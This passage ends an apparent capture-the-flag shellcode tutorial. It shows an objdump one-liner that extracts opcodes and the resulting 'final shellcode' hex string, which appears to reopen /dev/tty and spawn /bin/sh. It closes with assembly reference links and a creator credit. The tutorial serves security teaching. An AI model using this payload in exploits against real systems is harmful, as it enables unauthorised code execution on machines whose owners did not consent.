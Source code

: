 Here is our final shellcode. Take a note of this string; you'll need to use this later.

```
$ for i in $(objdump -m i386:x86-64 -D final_shell |grep "^ " |cut -f2); do printf $i; done; echo
4831c04831ffb0030f055048bf2f6465762f74747957545f505e66be0227b0020f054831c0b03b4831db53bb6e2f736848c1e31066bb626948c1e310b72f534889e74883c7014831f64831d20f05
```

## Practice:
- TODO: Get a TCTF challenge here.

## More Resources:
- [Assembly Programming Tutorials](https://www.tutorialspoint.com/assembly_programming/index.htm)
- [Assembly System Calls (32-bit)](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)
- [System Call Table (64-bit)](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
- [Netwide Assembler (NASM)](https://nasm.us/)
- [Input, Output, and Error Redirection in Linux](https://linuxhandbook.com/redirection-linux/)

## Creators

**Nihaal Prasad**

Enjoy :metal:
